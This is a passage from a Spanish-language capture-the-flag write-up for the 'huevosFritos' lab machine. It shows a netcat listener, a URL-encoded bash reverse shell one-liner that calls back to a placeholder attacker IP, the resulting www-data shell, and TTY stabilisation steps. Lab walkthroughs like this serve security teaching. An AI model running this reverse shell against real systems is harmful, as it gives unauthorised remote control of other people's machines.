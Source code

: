 Funciona, ahora podemos mandarnos una **Reverse Shell**.

Primero, abre un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Utiliza y ejecuta la siguiente **Reverse Shell**:
```bash
bash -c 'bash -i >%26 /dev/tcp/Tu_IP/443 0>%261'
```

<p align="center">
<img src="/assets/images/THL-writeup-huevosFritos/Captura14.png">
</p>

Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.10.190] 33242
bash: cannot set terminal process group (528): Inappropriate ioctl for device
bash: no job control in this shell
www-data@huevosfritos:/var/www/html/squirting/pantumaca$ whoami
whoami
www-data
```
Estamos dentro.

Ya solo falta obtener una sesión interactiva:
```bash
# Paso 1
script /dev/null -c bash

# Paso 2
CTRL + Z

# Paso 3
stty raw -echo; fg

# Paso 4
reset -> xterm

# Paso 5
export TERM=xterm && export SHELL=bash && stty rows 51 columns 189
```
Continuemos.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>
